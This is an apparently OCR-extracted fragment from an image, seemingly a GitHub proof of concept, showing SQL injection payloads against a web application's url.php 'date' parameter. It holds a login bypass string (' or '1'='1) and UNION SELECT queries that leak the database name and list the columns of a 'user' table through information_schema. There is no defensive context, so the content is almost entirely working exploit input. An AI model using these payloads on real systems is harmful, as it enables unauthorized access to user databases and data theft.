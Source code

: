 pass = '' or '1' = '1';
' or '1' = '1



`http://localhost/wzry/url.php?date=20231012' union`

`SELECT database(),'','','`

`http://localhost/wzry/url.php?date=20231012' union`

`SELECT`

`(select GROUP_CONCAT(c.COLUMN_NAME )from information_schema.COLUMNS c where`

`c.TABLE_SCHEMA='game' and c.TABLE_NAME='user'),'','','`